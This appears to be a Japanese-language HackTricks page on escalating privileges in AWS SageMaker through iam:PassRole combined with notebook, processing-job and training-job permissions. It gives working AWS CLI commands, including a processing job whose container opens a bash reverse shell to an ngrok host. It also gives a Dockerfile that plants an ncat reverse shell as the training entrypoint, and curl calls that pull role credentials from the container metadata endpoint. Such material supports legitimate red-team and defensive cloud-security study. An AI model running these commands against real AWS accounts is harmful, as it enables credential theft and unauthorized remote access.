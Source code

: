 # AWS - Sagemaker Privesc

<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加する、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## sagemaker

### `iam:PassRole`, `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

IAMロールを添付してノートブックの作成を開始します：
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
```markdown
レスポンスには `NotebookInstanceArn` フィールドが含まれており、新しく作成されたノートブックインスタンスのARNが含まれます。準備が整ったら、`create-presigned-notebook-instance-url` APIを使用して、ノートブックインスタンスにアクセスするためのURLを生成できます：
```
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
ブラウザでURLに移動し、右上の `Open JupyterLab` をクリックしてから、「Launcher」タブまでスクロールダウンし、「Other」セクションの「Terminal」ボタンをクリックします。

これでIAMロールのメタデータクレデンシャルにアクセスできるようになります。

**潜在的な影響：** 指定されたsagemakerサービスロールへのPrivesc。

### `sagemaker:CreatePresignedNotebookInstanceUrl`

もしJupyterの**ノートブックが既に実行中**で、`sagemaker:ListNotebookInstances`でリストできる（または他の方法で発見できる）場合、**それらのURLを生成し、アクセスして、前述の技術で示されたようにクレデンシャルを盗むことができます**。
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**潜在的影響：** sagemaker サービスロールへの権限昇格。

### `sagemaker:CreateProcessingJob,iam:PassRole`

これらの権限を持つ攻撃者は、sagemaker ロールが添付された **sagemaker の processingjob を実行させる** ことができます。攻撃者は、**AWS 管理の ECS アカウントインスタンス**で実行されるコンテナの定義を指定し、添付された **IAM ロールの認証情報を盗む** ことができます。
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**潜在的な影響：** 指定されたsagemakerサービスロールへのPrivesc。

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

これらの権限を持つ攻撃者は、トレーニングジョブを作成し、それに**任意のコンテナを実行**し、**ロールをアタッチ**することができます。したがって、攻撃者はそのロールの認証情報を盗むことができます。

{% hint style="warning" %}
このシナリオは、トレーニングジョブの設定で開始コマンドを指定できないため、前述のものよりも悪用が難しいです。攻撃者にrev shellまたはcredsを直接送信するDockerイメージを生成する必要があります。
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**潜在的な影響：** 指定されたsagemakerサービスロールへのPrivesc。

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

これらの権限を持つ攻撃者は、**ロールがアタッチされた任意のコンテナ**を実行する**ハイパーパラメータトレーニングジョブ**を作成する可能性があります。\
_時間がなくて悪用はしていませんが、前の悪用と似ているように見えます。悪用の詳細をPRで送っていただければ幸いです。_

# 参考文献
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で<strong>ゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの**会社を広告したい、または**HackTricksをPDFでダウンロード**したい場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式のPEASS & HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう。
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックしてください。
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**か、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォロー**してください。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを送って、あなたのハッキングのコツを**共有**してください。

</details>

